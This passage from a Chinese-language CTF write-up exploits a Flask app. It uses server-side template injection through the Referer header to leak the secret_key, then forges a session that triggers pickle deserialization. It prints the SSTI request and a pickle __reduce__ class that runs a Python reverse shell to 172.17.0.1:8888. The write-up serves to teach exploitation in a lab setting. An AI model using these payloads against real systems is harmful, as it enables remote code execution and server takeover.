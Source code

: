 ```


if __name__ == '__main__':
    app.run(
        host = '0.0.0.0',
        port = '8001',
        debug=False
    )
```

处理404页面的`page_not_found()`函数存在模板注入：

```
html = '&lt;html&gt;&lt;head&gt;&lt;meta http-equiv="Refresh" content="3;URL={}"&gt;&lt;title&gt;404 Not Found&lt;/title&gt;&lt;/head&gt;&lt;body&gt;Page not found. Redirecting...&lt;/body&gt;&lt;/html&gt;'.format(referrer)

return flask.render_template_string(html), 404
```

referer可控，但是限制了长度。所以利用这里的SSTI可以读取一些配置，但是没法直接RCE。

第二个洞是python反序列化：

```
savedata = flask.session.get('savedata', None)
data = pickle.loads(base64.b64decode(savedata))
```

flask用的是客户端session，所以这里`pickle.loads()`的参数可控。<br>
显然，解题思路是先利用模板注入读到`secret_key`，再用`secret_key`伪造session，触发pickle反序列化，导致RCE。

先来读secret_key：

```
GET /404 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Referer: http:///{{config}}
Connection: close
```

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_462_/t01f54a4f326019cf32.png)

得到secret_key：`b'\xe4xed}wxfd3xdcx1fxd72x07/Cxa9I'`<br>
从响应头也可得知服务端用的python版本是3.6.9，

通常python反序列化可以直接反弹shell：

```
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))

e = exp()
s = pickle.dumps(e)
```
